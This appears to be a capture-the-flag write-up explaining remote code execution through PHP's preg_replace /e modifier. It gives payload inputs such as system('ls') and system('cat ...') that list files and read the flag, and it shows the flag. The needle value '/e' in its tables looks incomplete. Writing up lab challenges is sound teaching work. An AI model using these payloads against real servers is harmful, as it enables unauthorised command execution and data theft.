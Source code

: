 # Web Exotic Attacks Pro Replacer

The website provides a simple interface for text replacement using regular expressions:

- Needle – the regex pattern to find
- Replacement – the value to replace with
- Haystack – the input text where the search happens

The form submits a GET request like this:

```ruby
GET /?needle=...&replacement=...&haystack=...
```

The server uses the following dangerous PHP code behind the scenes:

```php
preg_replace($needle, $replacement, $haystack);
```

If the needle ends in the e modifier, like /pattern/e, it evaluates the replacement as PHP code. This major vulnerability was removed in PHP 7+.

Example: **preg_replace("/.*/e", "system('ls')", "test");**. Will run **system('ls')** on the server and replace the text with the output.

### Exploit

-> To List Files:
| **Field**         | **Value**                       |
|-------------------|---------------------------------|
| **Needle**        | `/e`                            |
| **Replacement**   | `system('ls')`                  |
| **Haystack**      |  *(anything to trigger match)*  |

This will run the ls command and print files in the current directory: 
```
index.php wRtu3ND38n8RNgez
```

-> To Read the Flag File:
| **Field**       | **Value**                         |
|-----------------|-----------------------------------|
| **Needle**      | `/e`                              |
| **Replacement** | `system('cat wRtu3ND38n8RNgez')`  |
| **Haystack**    | *(anything to trigger match)*     |

This shows the flag: **SSS{st0p_3x3cut1ng_cmds_0n_my_s3rv3r}**
